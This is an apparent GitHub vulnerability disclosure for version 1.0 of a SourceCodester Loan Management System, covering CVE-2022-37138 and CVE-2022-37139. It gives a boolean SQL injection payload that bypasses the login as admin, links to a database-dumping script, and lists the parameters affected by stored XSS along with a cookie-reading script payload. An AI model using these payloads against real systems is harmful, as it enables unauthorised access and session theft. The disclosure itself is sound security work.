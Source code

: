 # Loan Management System

Loan Management System suffers from severals vulnerabilities which is SQL Injection and Stored Cross Site Scripting (XSS).

# CVE-2022-37138

## 1. SQL Injection
```
# Exploit Title: Loan Management System - SQL Injection via login page
# Date: 28/07/2022
# Exploit Author: saitamang
# Vendor Homepage: sourcecodester
# Software Link: https://www.sourcecodester.com/sites/default/files/download/razormist/LMS.zip
# Version: 1.0
# Tested on: Centos 7 apache2 + MySQL
```
The attack vector for the SQL Injection happened at the login page. The login can be bypass using the boolean payload below to gain access as Admin as the highest privileges.

`Payload --> 'or 2=2#`

The python script to get the database name from SQL Injection Vulnerability can be access [here](https://github.com/saitamang/POC-DUMP/blob/main/Loan%20Management%20System/sqli-getdb.py).

<img src="https://github.com/saitamang/POC-DUMP/blob/main/Loan%20Management%20System/img/script.png?raw=true" title="hack">

# CVE-2022-37139
## 2. Stored Cross Site Scripting
```
# Exploit Title: Loan Management System - XSS Stored
# Date: 28/07/2022
# Exploit Author: saitamang
# Vendor Homepage: sourcecodester
# Software Link:
https://www.sourcecodester.com/sites/default/files/download/razormist/LMS.zip
# Version: 1.0
# Tested on: Centos 7 apache2 + MySQL
```
There are several functions and parameter affected as below:

<pre><code>addUser.php
- firstname
- lastname

save_ltype.php
- ltype_name
- ltype_desc

save_borrower.php
- firstname
- middlename
- lastname
- address
</code></pre>

The payload use to inject is `"/><svg/onload=alert(document.cookie)>`
